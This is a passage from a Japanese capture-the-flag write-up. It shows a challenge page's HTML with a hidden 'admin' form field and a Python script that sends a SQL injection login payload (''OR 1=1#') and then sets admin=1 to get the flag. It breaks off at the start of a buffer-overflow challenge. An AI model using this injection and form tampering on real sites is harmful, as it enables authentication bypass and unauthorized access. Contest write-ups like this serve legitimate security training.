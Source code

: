 ```html
[利用者情報]
<table>
<tbody>
<tr>
<td>氏名</td><td>Ieyasu Tokugawa</td>
</tr>
<tr>
<td>ステータス</td><td>No flag</td>
</tr>
</tbody>
</table>
<hr />
<form action="flag.php" method="post">
<input type="hidden" name="admin" value="0">
<input type="submit" value="フラグを表示">
</form>
</body>
</html>
```

埋め込まれているフォームに合うように、リクエストを送ってみると、フラグが得られた。

```python
import requests

URL = "https://pw2-prod.2025winter-cybercontest.net/"

s = requests.session()
data = {
    "name": "'OR 1=1#",
    "password": "bizbaz",
    "pass-re": "bizbaza"
}
r = s.post(URL + "auth.php", data=data)
print(r.status_code)
print(r.text)


data = {
    "admin": "1",
    "submit": "フラグを表示"
}
r = s.post(URL + "flag.php", data=data)
print(r.status_code)
print(r.text)
```


## [PW] overmeow (200pts)

> ファイルを用意したので、解析してもらえませんか。
> nc pw4-prod.2025winter-cybercontest.net 30001
> 【回答書式】 flag{n桁の半角英数記号}


[hint]: overflow == 0x0
[hint]: overflow == 0x3534333231307a79